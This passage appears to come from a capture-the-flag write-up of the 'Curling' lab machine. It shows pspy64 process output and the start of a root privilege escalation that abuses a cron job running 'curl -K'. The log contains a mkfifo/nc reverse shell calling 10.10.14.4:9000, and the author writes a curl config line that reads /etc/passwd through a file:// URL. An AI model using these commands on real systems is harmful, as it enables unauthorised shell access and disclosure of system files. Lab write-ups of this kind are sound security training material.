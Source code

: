 ```bash

2025/01/02 21:50:22 CMD: UID=1000  PID=32569  | ./pspy64 
2025/01/02 21:50:22 CMD: UID=0     PID=32474  | 
2025/01/02 21:50:22 CMD: UID=0     PID=32369  | 
2025/01/02 21:50:22 CMD: UID=0     PID=32318  | 
2025/01/02 21:50:22 CMD: UID=0     PID=32241  | 
2025/01/02 21:50:22 CMD: UID=1000  PID=14486  | /usr/bin/gpg-agent --supervised                                                                         
2025/01/02 21:50:22 CMD: UID=1000  PID=5106   | -bash 
2025/01/02 21:50:22 CMD: UID=1000  PID=5104   | sshd: floris@pts/1   
2025/01/02 21:50:22 CMD: UID=1000  PID=4985   | (sd-pam) 
2025/01/02 21:50:22 CMD: UID=1000  PID=4976   | /lib/systemd/systemd --user 
2025/01/02 21:50:22 CMD: UID=0     PID=4973   | sshd: floris [priv]  
2025/01/02 21:50:22 CMD: UID=33    PID=4699   | /bin/bash 
2025/01/02 21:50:22 CMD: UID=33    PID=4698   | python3 -c import pty;pty.spawn("/bin/bash")                                                            
2025/01/02 21:50:22 CMD: UID=33    PID=4681   | nc 10.10.14.4 9000 
2025/01/02 21:50:22 CMD: UID=33    PID=4680   | /bin/sh -i 
2025/01/02 21:50:22 CMD: UID=33    PID=4679   | cat /tmp/f 
2025/01/02 21:50:22 CMD: UID=33    PID=4676   | sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9000 >/tmp/f    

<SNIP>

2025/01/02 21:51:01 CMD: UID=0     PID=32581  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report                                 
2025/01/02 21:51:01 CMD: UID=0     PID=32580  | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input                               
2025/01/02 21:51:01 CMD: UID=0     PID=32579  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report                      
2025/01/02 21:51:01 CMD: UID=0     PID=32578  | /usr/sbin/CRON -f 
2025/01/02 21:51:01 CMD: UID=0     PID=32577  | /usr/sbin/CRON -f 
2025/01/02 21:51:02 CMD: UID=0     PID=32583  | cat /root/default.txt 
```

Here I found some command lines run by `root` while working on the files in `/admin-area`.

### Exploit `curl` command

Here's the reference of using `-K` option :
https://curl.se/docs/manpage.html#-K

The naive approach is simply modifiying `input` file to read local file instead.

```bash
floris@curling:/home/floris/admin-area$ echo -e 'url = "file:///etc/passwd"' > input
```

However, I wasn't able to read the `/etc/passwd` from `output`. Based on `pspy64` output, I can guess that it's because the scheduled job runs `/bin/sh -c sleep; cat /root/default.txt > /home/floris/admin-area/input` ahead of `curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report`.
